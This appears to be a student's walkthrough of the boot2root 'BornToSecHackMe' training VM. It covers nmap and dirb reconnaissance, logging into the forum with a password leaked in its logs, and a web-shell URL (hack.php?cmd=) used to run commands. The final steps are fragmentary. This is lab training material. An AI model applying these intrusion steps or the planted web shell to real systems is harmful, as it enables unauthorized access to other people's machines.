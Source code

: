 1. in virtual box go to the setting of machine we use for boot2root project, go to network section, use the adapter "Host-only Adapter",
    use the default name "vboxnet0".
2. so now we can use ifconfig to have more infos on our ips
    with command ifconfig, we have:
    vboxnet0: flags=8943<UP,BROADCAST,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500
	ether 0a:00:27:00:00:00
	inet 192.168.99.1 netmask 0xffffff00 broadcast 192.168.99.255
    we know all the vm with adapter vboxnet0, their ips are between 192.168.99.0-255
3. brew install nmap
   use nmap to scan all the ips in that range:
   nmap  192.168.99.0-255
   we have:
   Nmap scan report for 192.168.99.100
   Host is up (0.10s latency).
   Not shown: 994 closed tcp ports (conn-refused)
   PORT    STATE SERVICE
   21/tcp  open  ftp
   22/tcp  open  ssh
   80/tcp  open  http
   143/tcp open  imap
   443/tcp open  https
   993/tcp open  imaps
   so that we know the ip of the machine is 192.168.99.100
4. use another tool called dirp to scan (DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects.)
   use following steps to have dirp in our host machine:
   cd ~/Applications
   wget https://downloads.sourceforge.net/project/dirb/dirb/2.22/dirb222.tar.gz
   tar -xvf dirb222.tar.gz
   rm dirb222.tar.gz
   brew install autoconf
   chmod -R 755 dirb222
   cd dirb222
   ./configure
   make
   make install
   add the path to the binary:
   export PATH=$PATH:{binary path}

   ```shell
   lists/common.txt

   -----------------
   DIRB v2.22
   By The Dark Raver
   -----------------

   START_TIME: Mon Oct 25 20:20:54 2021
   URL_BASE: http://192.168.56.101/
   WORDLIST_FILES: wordlists/common.txt

   -----------------

   GENERATED WORDS: 4612

   ---- Scanning URL: https://192.168.56.101/ ----
   + https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)
   ==> DIRECTORY: https://192.168.56.101/forum/
   ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
   + https://192.168.56.101/server-status (CODE:403|SIZE:296)
   ==> DIRECTORY: https://192.168.56.101/webmail/
   ```
      the result shows that there are directories on the server named forum phpmyadmin and webmail
   so let's try https://192.168.56.101/forum
   when we click on the left side "problem login?", we are directed to another page who has lots logs of user lmezard
   and there is something interesting:
   Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
   Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
   Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
   ok, we have the user name, and "!q\]Ej?*5K5cy*AJ" looks like a password, maybe have a try?
   click in login, and username lmezard and !q\]Ej?*5K5cy*AJ for password ------ wtf, we logged in !
   now click onnthe right side on his name, we are in the edit profile page , and we have :
   E-mail:	laurie@borntosec.net
   we got his email address

https://192.168.99.100/forum/templates_c/hack.php?cmd=ls%20/
    file fun to see what is this file
    fun: POSIX tar archive (GNU)

 tar xvf fun

laura

